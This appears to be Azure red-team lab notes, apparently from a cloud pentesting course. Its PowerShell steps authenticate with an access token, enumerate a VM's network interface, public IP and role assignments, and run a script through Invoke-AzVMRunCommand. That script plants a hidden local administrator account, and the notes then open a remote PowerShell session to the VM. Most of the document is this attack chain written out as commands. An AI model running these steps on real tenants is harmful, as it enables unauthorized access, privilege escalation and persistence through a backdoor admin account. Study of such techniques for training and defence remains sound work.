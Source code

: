 #### Connect with Az Powershell

```powershell
$accesstoken = ''
Connect-AzAccount -AccessToken $accesstoken -AccountId <CLIENT ID OR EMAIL>
```

#### Get more information about the VM (networkprofile)

```powershell
Get-AzVM -Name <VM NAME> -ResourceGroupName <RESOURCE GROUP NAME> | select -ExpandProperty NetworkProfile
```

#### Get the network interface

```powershell
Get-AzNetworkInterface -Name <NETWORKINTERFACE>
```

#### Query ID of public ip adress to get the public ip

```powershell
Get-AzPublicIpAddress -Name <ID OF PUBLIC IP ADRESSES IN IPCONFIGURATION>
```

#### Check role assignments on the VM

```powershell
Get-AzRoleAssignment -Scope <RESOURCE ID>
```

#### Check the allowed actions of the role definition

```powershell
Get-AzRoleDefinition -Name "<ROLE DEFINITION NAME>"
```

#### Run a command on the VM

```powershell
Invoke-AzVMRunCommand -VMName <VM NAME> -ResourceGroupName <NAME> -CommandId 'RunPowerShellScript' -ScriptPath '<PATH TO .ps1 FILE>' -Verbose
```

#### Contents of adduser.ps1

```powershell
$passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
New-LocalUser -Name <USER> -Password $passwd
Add-LocalGroupMember -Group Administrators -Member student38
```

#### Access the VM

```powershell
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USER>', $Password)
$sess = New-PSSession -ComputerName 20.52.148.232 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
```
